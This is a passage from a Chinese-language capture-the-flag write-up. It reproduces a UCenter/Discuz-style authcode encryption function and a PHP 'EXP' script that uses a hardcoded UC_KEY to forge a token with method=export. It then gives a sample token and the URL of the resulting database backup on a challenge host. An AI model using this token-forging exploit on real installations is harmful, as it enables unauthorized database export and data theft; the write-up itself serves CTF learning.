		$rndkey[$i] = ord($cryptkey[$i % $key_length]);
	}

	for($j = $i = 0; $i < 256; $i++) {
		$j = ($j + $box[$i] + $rndkey[$i]) % 256;
		$tmp = $box[$i];
		$box[$i] = $box[$j];
		$box[$j] = $tmp;
	}

	for($a = $j = $i = 0; $i < $string_length; $i++) {
		$a = ($a + 1) % 256;
		$j = ($j + $box[$a]) % 256;
		$tmp = $box[$a];
		$box[$a] = $box[$j];
		$box[$j] = $tmp;
		$result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
	}

	if($operation == 'DECODE') {
		if(((int)substr($result, 0, 10) == 0 || (int)substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) === substr(md5(substr($result, 26).$keyb), 0, 16)) {
			return substr($result, 26);
		} else {
				return '';
			}
	} else {
		return $keyc.str_replace('=', '', base64_encode($result));
	}

}

```

​	传入的$code经过decode后得到的字符串再parse_str解析。

​	当method=='export'时，可以导出数据库：



​	那么生成$code的EXP：

```php
<?php

function _authcode($string, $operation = 'DECODE', $key = '', $expiry = 0) {
	$ckey_length = 4;

	$key = md5($key ? $key : UC_KEY);
	$keya = md5(substr($key, 0, 16));
	$keyb = md5(substr($key, 16, 16));
	$keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';

	$cryptkey = $keya.md5($keya.$keyc);
	$key_length = strlen($cryptkey);

	$string = $operation == 'DECODE' ? base64_decode(substr($string, $ckey_length)) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
	$string_length = strlen($string);

	$result = '';
	$box = range(0, 255);

	$rndkey = array();
	for($i = 0; $i <= 255; $i++) {
		$rndkey[$i] = ord($cryptkey[$i % $key_length]);
	}

	for($j = $i = 0; $i < 256; $i++) {
		$j = ($j + $box[$i] + $rndkey[$i]) % 256;
		$tmp = $box[$i];
		$box[$i] = $box[$j];
		$box[$j] = $tmp;
	}

	for($a = $j = $i = 0; $i < $string_length; $i++) {
		$a = ($a + 1) % 256;
		$j = ($j + $box[$a]) % 256;
		$tmp = $box[$a];
		$box[$a] = $box[$j];
		$box[$j] = $tmp;
		$result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
	}

	if($operation == 'DECODE') {
		if(((int)substr($result, 0, 10) == 0 || (int)substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) === substr(md5(substr($result, 26).$keyb), 0, 16)) {
			return substr($result, 26);
		} else {
				return '';
			}
	} else {
		return $keyc.str_replace('=', '', base64_encode($result));
	}

}

$UC_KEY = "N8ear1n0q4s646UeZeod130eLdlbqfs1BbRd447eq866gaUdmek7v2D9r9EeS6vb";
$code = "time=".time()."&method=export";
$code = _authcode($code, 'ENCODE', $UC_KEY);
echo $code;

// 40394XRvcV7f/i58vrkhoA57KrrNsWeTtJSi2H4iv3KjDsUaxZWGz61f/q9Nw55COZmDk9p3yHF8HA
?>
```



​	获取备份文件路径：

```
http://challenge.xinshi.fun:34560/data/backup_250819_IQ0fH3/250819_Db23m2-1.sql
```

​	pre_a_flag表的定义：



​	表内值：



​	解码得到：



